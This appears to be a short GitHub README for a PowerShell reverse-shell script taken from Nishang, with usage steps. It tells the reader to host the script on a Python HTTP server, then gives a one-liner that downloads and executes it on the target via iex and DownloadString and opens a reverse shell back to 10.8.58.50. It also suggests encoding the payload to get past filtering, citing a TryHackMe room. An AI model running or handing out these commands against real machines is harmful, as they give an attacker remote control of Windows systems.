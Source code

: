 # powershell-reverse-shell
its a simple powershell script i have from nishanga a usefull for reverse shell most for windows


# how to run the powershell script and get a reverse shell(usage)
1. open a simple python server and make sure the script is right there were you have opened the server
command: python3 -m http.server 81

where: 
port 81 (is where i have decided to open the port coz for me port 80 was already in used)
ip_address: 10.8.58.50 (check via ifconfig command or ip a| grep tun0)

NB: After you have saved this script and opened a server now u can execute the following command on the target machine
2. there multiple ways to do this first all u need to save the file as saved for me as shell.ps1 and after u need to execute the following command the target machine(anyway vulnerable that can allow you to run command or execute commands

command: powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.8.58.50:81/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.58.50 -Port 1234

NB: sometimes this command may not work so u can just incode the command either online or anything i love doing this with burpsuite course it is easy
Forexample with a tryhackme  room(iron corp , in order to get a reverse shell you were supporsed to encode the payload more than two times
